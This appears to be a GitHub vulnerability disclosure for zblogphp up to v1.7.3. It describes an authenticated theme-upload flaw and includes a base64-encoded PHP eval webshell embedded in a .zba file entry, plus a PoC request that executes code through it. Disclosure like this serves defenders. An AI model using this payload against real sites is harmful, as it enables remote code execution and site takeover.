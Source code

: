 # Summary
There is a vulnerability in zblogphp v1.7.3 that allows administrator users to upload custom zba theme files and gain access to the website.

Affected versions:
- zblogphp <= v1.7.3-3230

# Details
After logging in as an administrator, you can upload custom themes here:
![image](https://github.com/user-attachments/assets/577d0bc3-38d4-4cc4-be96-8f81b3699700)

Download a template file from this link: https://app.zblogcn.com/?id=22606.

Open the downloaded zba file and find that the php file content is encrypted with base64:
![image](https://github.com/user-attachments/assets/43419a65-3d38-4475-a92e-56c58145c131)
![image](https://github.com/user-attachments/assets/5e59baa0-50d3-46d8-a25a-c1239f87a76e)

We can add a malicious webshell file ourselves according to the format of this file:
(Note that when writing webshell, you need to wrap the line and cannot write it directly as a sentence.)
```php
<file><path>aymFreeFive/1.php</path><stream>PD9waHAgCkBldmFsKCRfUkVRVUVTVFsxXSk7Cj8+</stream></file>
```

![image](https://github.com/user-attachments/assets/bd4b5952-4d89-46b1-8498-c0bbaa2fbc05)

Then write this content into the zba file:
![image](https://github.com/user-attachments/assets/aa4369be-0d35-46d8-9cdc-4c26601ac032)

Then upload the zba theme file,![image](https://github.com/user-attachments/assets/f536ddcc-4e84-4776-8dd0-829cf54e2506)

Then enable our custom uploaded theme, visit `/zb_users/theme/aymFreeFive/1.php?1=phpinfo()` and we get a shell:
![image](https://github.com/user-attachments/assets/28a4591d-fa00-4fc6-b13b-1caf24d9b63b)

# PoC
`/zb_users/theme/aymFreeFive/1.php?1=phpinfo()`

![image](https://github.com/user-attachments/assets/28a4591d-fa00-4fc6-b13b-1caf24d9b63b)
